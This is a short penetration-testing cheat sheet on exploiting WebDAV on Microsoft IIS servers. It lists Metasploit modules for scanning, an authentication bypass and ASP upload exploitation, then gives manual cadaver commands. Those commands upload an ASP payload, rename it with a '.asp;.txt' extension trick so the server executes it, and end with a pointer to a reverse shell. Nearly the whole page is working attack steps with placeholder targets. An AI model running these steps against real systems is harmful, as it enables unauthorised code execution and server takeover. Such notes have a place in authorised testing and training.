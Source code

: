 # 🟡 WebDAV

### <mark style="color:orange;">WebDAV Exploitation using Metasploit</mark> <a href="#webdav-exploitation-using-metasploit" id="webdav-exploitation-using-metasploit"></a>

```bash
# Checking WebDAV using metasploit
use auxiliary/scanner/http/webdav_scanner
set rhosts <IP>
run

# Content discovery using metasploit
use auxiliary/scanner/http/webdav_website_content
set rhosts <IP>
run

# Checking authentication using metasploit
use auxiliary/scanner/http/ms09_020_webdav_unicode_bypass
set rhosts <IP>
run

# Upload exploitation using metasploit
use exploit/windows/iis/iis_webdav_upload_asp
```

### <mark style="color:orange;">Manual WebDAV exploitation (cadaver)</mark> <a href="#manual-webdav-exploitation-cadaver" id="manual-webdav-exploitation-cadaver"></a>

```bash
cadaver http://IP/

# Goal is to upload file on IIS Server.
ls 

# Find a directory where we can upload.
cd <path>

# Test for upload
put /path/to/test.asp test.asp

# Upload payload
put /path/to/payload.asp longnamebrotesttest123456789.txt

# Copy and rename payload
copy longnamebrotesttest123456789.txt longnamebrotesttest123456789.asp;.txt

# Access (should execute the ASP content)
http://IP/_vti_pvt/longnamebrotesttest123456789.asp%3b.txt
        
# Then go for reverse shell
```
